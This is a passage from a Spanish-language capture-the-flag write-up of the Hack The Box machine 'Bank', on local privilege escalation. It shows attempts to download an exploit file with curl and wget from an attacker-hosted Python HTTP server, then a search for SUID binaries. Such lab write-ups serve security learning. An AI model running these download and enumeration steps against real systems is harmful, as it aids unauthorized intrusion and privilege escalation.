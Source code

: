 ```bash
// user
// user@ubuntu:~$ id
// uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
// user@ubuntu:~$ gcc pwn.c -o pwn
// user@ubuntu:~$ ./pwn
```
Ahora intentemos subirlo, vamos por pasos:
* Primero vamos a abrir un servidor con Python:
```bash
python3 -m http.server                                                            
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

* Ahora intentemos subirlo:
```bash
www-data@bank:/$ curl -O http://10.10.14.14:8000/LocalPE.c
curl -O http://10.10.14.14:8000/LocalPE.c
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0Warning: Failed to create the file LocalPE.c: Permission denied
  9 28360    9  2656    0     0   9388      0  0:00:03 --:--:--  0:00:03  9418
curl: (23) Failed writing body (0 != 2656)
```

* Chetos no se puede, intentémoslo de otra forma:
```bash
www-data@bank:/$ wget 10.10.14.14/LocalPE.c
wget 10.10.14.14/LocalPE.c
--2023-04-04 02:11:28--  http://10.10.14.14/LocalPE.c
Connecting to 10.10.14.14:80... failed: Connection refused.
```
Era OBVIO que no teníamos permisos para descargar cosas xd, solamente lo hice para tener un ejemplo de cómo enviar archivos a un SO Linux.

<h2 id="Binario">Escalando Privilegios Usando Binario de Máquina</h2>

¿Entonces que queda? Investiguemos que archivos tenemos permisos para usar:
```bash
www-data@bank:/$ find \-perm -4000 2>/dev/null
find \-perm -4000 2>/dev/null
./var/htb/bin/emergency
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/bin/at
./usr/bin/chsh
./usr/bin/passwd
./usr/bin/chfn
./usr/bin/pkexec
./usr/bin/newgrp
./usr/bin/traceroute6.iputils
./usr/bin/gpasswd
./usr/bin/sudo
./usr/bin/mtr
./usr/sbin/uuidd
./usr/sbin/pppd
./bin/ping
./bin/ping6
./bin/su
./bin/fusermount
./bin/mount
./bin/umount
```